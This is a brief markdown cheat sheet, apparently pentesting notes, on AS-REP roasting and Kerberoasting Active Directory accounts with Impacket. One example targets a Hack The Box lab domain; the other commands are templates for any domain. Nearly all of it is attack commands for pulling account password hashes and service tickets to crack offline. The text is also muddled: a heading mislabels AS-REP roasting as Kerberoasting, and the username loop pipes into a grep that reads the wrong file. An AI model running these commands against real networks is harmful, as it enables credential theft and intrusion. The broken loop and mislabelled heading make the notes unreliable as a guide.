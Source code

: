 # Kerberoasting
## GetNPUsers (Impacket)
````bash
impacket-GetNPUsers htb.local/svc-alfresco -dc-ip 10.10.10.161 -no-pass
````

## Bruteforcing Kerberoasting
AS-REP roasting is a technique that allows retrieving password hashes for users that have Do not require Kerberos preauthentication property selected:

![](https://www.ired.team/~/files/v0/b/gitbook-28427.appspot.com/o/assets%2F-LFEMnER3fywgFHoroYn%2F-L_nj7h01rJKzhElx_RC%2F-L_njEkL2a_oSCa1g0H9%2FScreenshot%20from%202019-03-12%2021-08-33.png?alt=media&token=dc08b9a5-1cae-4762-a6a0-773735227aad)

## Looping through a username list
**bash while read do**
````bash
while read p; do GetNPUsers.py <domain>/"$p" -request -no-pass -dc-ip <DC-IP> >> hash.txt; done < usernames.txt | grep -v 'KDC_ERR_C_PRINCIPAL_UNKNOWN' usernames.txt
````
**Impacket builtin loop**
````bash
GetNPUsers.py <domain>/ -no-pass -usersfile <username.txt> -dc-ip
<DC-IP> | grep -v 'KDC_ERR_C_PRINCIPAL_UNKNOWN'
````

## GetUserSPNs
Impacket’s GetUserSPNs.py again simplifies the process to find SPNs, and is also able to request the TGS and
extract the hash for offline cracking.
````bash
impacket-GetUserSPNs <domain>/<username> -dc-ip <DC-IP>
````
### Requesting TGS ticket
Requesting a Ticket Granting Service ticket, which is can be cracked offline because the TGS_REP is encrypted using NTLM password hash of the account in whose context the service instance is running.
````bash
impacket-GetUserSPNs <domain>/<username> -dc-ip <DC-IP> -request
````
